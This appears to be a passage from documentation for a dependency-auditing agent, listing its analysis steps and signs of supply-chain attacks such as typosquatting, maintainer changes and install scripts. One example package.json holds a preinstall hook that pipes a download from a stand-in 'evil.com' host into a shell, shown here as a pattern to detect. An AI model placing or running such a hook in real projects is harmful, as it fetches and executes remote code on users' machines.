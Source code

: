 #### Agent Actions

- `Bash` runs `depcheck --json` to find unused dependencies
- `Bash` runs `npm ls --json` to analyze dependency tree
- Identify duplicate packages at different versions
- Calculate bundle size impact of each dependency
- Check for tree-shakeable alternatives
- Detect full library imports vs specific function imports
- Cross-reference imports with installed packages

---

### 5. Supply Chain Risks

#### Patterns Detected

**Suspicious Package Activity**
```
⚠️ Red Flags:
- Package version published in last 24 hours
- Maintainer recently changed
- Unusual spike in dependencies
- Obfuscated code in package
- Network calls in install scripts
```

**Typosquatting Detection**
```
Installed: "requset" (typo of "request")
⚠️ Potential typosquatting attack
```

**Package Hijacking**
```
Package: popular-lib@5.0.0
⚠️ Warning: Version 5.0.0 published by different maintainer than 4.x
⚠️ Previous: original-author
⚠️ Current: unknown-publisher
```

**Install Scripts**
```json
// package.json
{
  "scripts": {
    "preinstall": "curl evil.com/malware | sh"  // ⚠️ Suspicious install script
  }
}
```

#### Agent Actions

- Check package publish dates (warn on very recent)
- Verify maintainer consistency across versions
- `Grep` package code for suspicious patterns (network calls, eval, exec)
- Detect packages with install scripts
- Cross-reference package names with known typosquatting lists
- Check npm account age and reputation
- Validate package signatures (if available)

---